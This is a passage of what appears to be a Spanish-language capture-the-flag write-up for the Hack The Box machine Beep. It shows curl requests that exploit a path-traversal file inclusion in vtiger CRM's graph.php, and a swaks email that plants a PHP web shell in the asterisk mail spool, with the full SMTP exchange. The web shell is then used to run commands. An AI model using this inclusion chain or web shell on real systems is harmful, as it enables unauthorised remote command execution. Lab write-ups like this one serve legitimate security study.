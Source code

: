 Ahora envía la petición curl con el parámetro `&telnet_cmd` con el argumento como comando `id`:

```shell
curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action&telnet_cmd=id"
```

Podemos enviar un correo electrónico con los intercambios:

```shell
❯ swaks --to asterisk@localhost --from wixnic@helo.htb --header "Subject: Shell" --body 'PHP code: <?php system($_REQUEST["cmd"]); ?>' --server 10.10.10.7
=== Trying 10.10.10.7:25...
=== Connected to 10.10.10.7.
<-  220 beep.localdomain ESMTP Postfix
 -> EHLO kali
<-  250-beep.localdomain
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
<-  250 DSN
 -> MAIL FROM:<wixnic@helo.htb>
<-  250 2.1.0 Ok
 -> RCPT TO:<asterisk@localhost>
<-  250 2.1.5 Ok
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Wed, 22 Dec 2021 19:07:02 -0500
 -> To: asterisk@localhost
 -> From: wixnic@helo.htb
 -> Subject: Shell
 -> Message-Id: <20211222190702.277580@kali>
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
 ->
 -> PHP code: <?php system($_REQUEST["cmd"]); ?>
 ->
 ->
 -> .
<-  250 2.0.0 Ok: queued as D7063D92FD
 -> QUIT
<-  221 2.0.0 Bye
=== Connection closed with remote host.
```

Ahora podemos leer ese archivo con la LFI en y añadir `&cmd=id` al final de la URL, para ejecutar comandos del sistema:

```shell
curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action&cmd=id"
```
